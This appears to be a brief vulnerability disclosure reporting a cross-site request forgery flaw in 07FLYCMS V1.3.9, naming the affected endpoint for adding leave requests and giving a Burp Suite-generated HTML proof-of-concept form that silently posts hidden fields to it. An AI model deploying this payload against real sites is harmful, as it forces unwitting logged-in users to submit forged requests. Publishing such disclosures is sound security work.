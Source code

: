 
target:https://github.com/lingqifei/07fly-crm
version: V1.3.9

07FLYCMS V1.3.9 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://erp.07fly.net:80/oa/OaLeave/add.html

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://erp.07fly.net:80/oa/OaLeave/add.html" method="POST">
      <input type="hidden" name="type" value="1" />
<input type="hidden" name="start_time" value="2024-10-17+21%3A06%3A00" />
<input type="hidden" name="end_time" value="" />
<input type="hidden" name="reason" value="cs" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

